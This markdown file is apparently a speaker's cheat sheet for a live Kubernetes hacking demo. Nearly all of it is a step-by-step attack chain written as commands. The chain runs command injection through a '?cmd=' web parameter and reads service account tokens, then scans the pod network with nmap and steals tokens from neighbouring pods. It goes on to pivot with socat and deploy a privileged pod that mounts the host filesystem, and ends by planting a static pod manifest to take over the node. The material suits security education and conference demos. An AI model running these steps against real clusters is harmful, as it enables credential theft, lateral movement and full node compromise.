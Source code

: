 Cheat sheet
===========


# setup

Run slides in 1

Run web in 2

Run terminal in 3 - run ./setup.sh in 3 and then `source ./setup_kubectl.sh`





# DEMO

## demo ls
```
?cmd=ls
```
## get token
```
?cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token

```
save results to your kubeconfig (e.g. demokubeconfig if you used `setup_kubeconfig.sh`)





## Curl endpoints with token
```
?cmd=curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/endpoints

```

OR
 
```
?cmd=curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" https://10.3.240.1/api/v1/namespaces/default/endpoints

```
## Save endpoint into kubeconfig file

```
>vim $KUBECONFIG
/token
CTRL w CTRL w CTRL D CTRL SHIFT V
```

<!-- Should be able to do export TOKEN=... but it's flaky -->

## Test access

```
kubectl get po 
```
<!-- shouldn't work -->

```
kubectl get po -n secure

```
<!-- should show a single service -->

## demo some things

```
kubectl auth can-i get pods 
kubectl auth can-i --list 

```

```
kubectl-access_matrix -n default
kubectl-access_matrix -n secure

```

```
kubectl exec -it -n secure webadmin- -- /bin/sh
```

# Try to deploy to busy box but it will fail

```
kubectl create deployment test1 --image=busybox -n secure

```

```
kubectl describe -n secure pod test\t 

```
Show that the pod failed due to the PSP







# deploy with brick as nonroot 


```
kubectl create deployment myspecialshell --image=antitree/brick -n secure

```
<!-- kubectl run myspecialshell --image=antitree/brick -n secure -->

<!-- kubectl run myspecialshell --generator=run-pod/v1 --image=gcr.io/shmoocon-talk-hacking/brick -n secure -->

# Create connection to server on port 8080

```
kubectl port-forward -n secure myspecialshell 8080

```






# Find neighboring pods
## Get local IP

```
ifconfig
```
<!-- find your subnet -->

## Scan for other hosts

```
sudo nmap -sS -PN -n --open -p 5000 10.24.0.0/16 -T5
```

<!-- find the IP that's in the secure domain -->








# Find the IPs to target
{{ PASTE THE TARGET HERE}}

```
export TARGET={{TARGET}}

```
## Extract other tokens
NOTE BASIC AUTH

```
curl -u antitree:password http://${TARGET}:5000/\?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

```

<!-- curl -u antitree:password http://${TARGET}:5000/\?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

curl -u antitree:password http://10.0.1.5:5000/\?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

curl http://10.24.1.4:5000/\?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token -->

## Verify the namespace

```
curl -u antitree:password http://${TARGET}:5000/?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/namespace
```
<!-- Should say default -->

# save the ip address found and confirmed
<!-- 10.24.1.3 -->










# find the secret admin server

```
kubectl-net_forward -n secure
```

```
kubectl run -n secure --restart=Never --image=alpine/socat socat1 -- -d -d tcp-listen:9999,fork,reuseaddr tcp-connect:10.24.0.7:5000 
kubectl wait --for=condition=Ready pod/socat1
kubectl port-forward pod/socat1 9999:9999 -n secure
```

# steal token again outside that context

```
?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
```









# replace local kubeconfig file with new token

```
vi ./kubeconfig
```
## Demo access

```
kubectl get po -n secure
```
<!-- shouldn't work -->


```
kubectl get po -n default
```

<!-- should work -->








# Deploy brick as priv'd

```
kubectl apply -f brickpriv.yaml -n default --validate=false

kubectl port-forward -n default brickprivpod 8080
```

## Chroot the env

```
sudo chroot /chroot
```








## Take over the container with kubectl
<!-- #curl -k -LO https://storage.googleapis.com/kubernetes-release/release/v1.17.0/bin/linux/amd64/kubectl && chmod +x ./kubectl
/home/kubernetes/bin/kubectl --kubeconfig /var/lib/kubelet/kubeconfig get po --all-namespaces -->

<!-- ```
./kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'

``` -->


```
alias kubectl=/home/kubernetes/bin/kubectl
export KUBECONFIG=/var/lib/kubelet/kubeconfig 
```

```
echo 'apiVersion: v1
kind: Pod
metadata:
  name: bad-priv2
  namespace: kube-system
spec:
  containers:
  - name: bad
    hostPID: true
    image: antitree/brick
    stdin: true
    tty: true
    imagePullPolicy: IfNotPresent
    volumeMounts:
      - mountPath: /chroot
        name: host
  securityContext:
    privileged: true
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
' > /etc/kubernetes/manifests/hacked.yaml
```
kubectl get po -n kube-system










<!-- ./helm2 repo add ropnop https://ropnop.github.io/pentest_charts/
./helm2 install ropnop/exfil_secrets    -->

## Cleanup
gcloud container clusters delete standard-cluster-1
